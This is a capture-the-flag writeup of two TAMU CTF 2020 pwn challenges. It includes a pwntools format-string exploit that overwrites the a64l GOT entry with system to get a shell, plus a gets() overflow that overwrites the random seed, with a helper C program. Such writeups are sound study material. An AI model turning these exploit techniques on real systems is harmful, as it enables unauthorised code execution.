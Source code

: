 ```yaml
---
title: TAMU CTF 2020 - Pwn Writeups
summary:
date: "2020-03-30T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


## **B64DECODER (244pts)** ##

![TASK](https://imgur.com/ZVHG4PA.png)

This is wont be a detailed writeup , however in this task we have a clear format string vulnerability (line 23) and a leak of a64l function address 

![TASK](https://imgur.com/EIv7uYX.png)

The idea is to overwrite the GOT entry of a64l function with the address of system in libc (not system@plt) using the format string vulnerability , it's also a partial overwrite because we have a limited length of input (32 characters) and using the leaked address of a64l we can easily know the address of system function , here is my exploit :

```python
from pwn import *
import struct
import sys
def pad(str):
        return str+"X"*(32-len(str))
payload=""
#p=process("./b64decoder")
p=remote("challenges.tamuctf.com",2783)
d=p.recvuntil("name!")
A64Ladd=d[:-18][-10:]
TOWRITE="0x"+A64Ladd[-4:]
sys=int(TOWRITE,16)-1680-4  #A64l-0x690
log.info(TOWRITE)
log.info(sys)
A64L_PLT=0x804b398
a64lADD=p32(A64L_PLT)
payload+=a64lADD
payload+="%"+str(sys)+"x%71$hn"
log.info("payload crafted")
p.sendline(payload)
log.info("Sent , Haaaw el shell")
p.interactive()

```
And Bingo we got our shell :D

![TASK](https://imgur.com/jd78uIm.png)

**NOTE:** Task files **[HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/TAMU%20CTF/B64DECODER)**

## **TROLL (50pts)** ##

![TASK](https://imgur.com/AgJ7rGR.png)

In this task we are supposed to win a game by guessing the next 100 random numbers , looking at the source code we can see the vulnerable gets function , after that we are setting the seed
value to the time and finally the beginning of the loop and generating the random numbers and questions each time .

![MAIN](https://imgur.com/AApFQgK.png)

My idea was to overwrite the seed value with our own value than BINGO we can generate the next random numbers and win the game , i have done things manually , i entered a unique seaquence and than observed with gdb if i have overwritten where the seed value is stored 

My input :
> AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

![TASK](https://imgur.com/XqjEzZQ.png)

I have entered a sequence of alphabet characters and stopped in the call of srand function , you can see te RDI register(where the 1st argument passed to a function is stored)  hold the value of "MMMM"
so if we replace "MMMM" with the value we want , this value will be the seed for the random numbers.

I have written this little C program to generate 100 random numbers using our chosen seed and stored them in a file :
```c
#include<stdlib.h>
#include<stdio.h>
#include<time.h>

int main(int argc, char *argv[]){
    int i=0;
int seed=3472328296227680305    //0x1000 in decimal
srand(seed);
for(i=0;i<=99;i++){
    int a=rand()% 100000 + 1;
    printf("%d\n",a);  
} 
 return 0;
}
```

After that i have written this exploit to overwrite the seed value with 0x1000 and answer the questions using the numbers we have generated 

```python
from pwn import *
#p=process("./troll")
p=remote("challenges.tamuctf.com",4765)
p.recvuntil("Who goes there?")
SEED="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1000"
p.sendline(SEED)
log.info("Sent First payload")
answers=open("answer","r")
for line in answers:
        p.recvuntil("What is it?")
        log.info("sending answer: "+line)
        p.sendline(line)
p.interactive()

```
Note: the offset in the remote server is different, so i had to guess it xD However we got our flag : 

![MAIN](https://imgur.com/QjwTHDR.png)

**NOTE:** Task files **[HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/TAMU%20CTF/TROLL)**

This is the first time writing a pwn writeup so i hope you enjoyed it , any questions you can find me on twitter @BelkahlaAhmed1

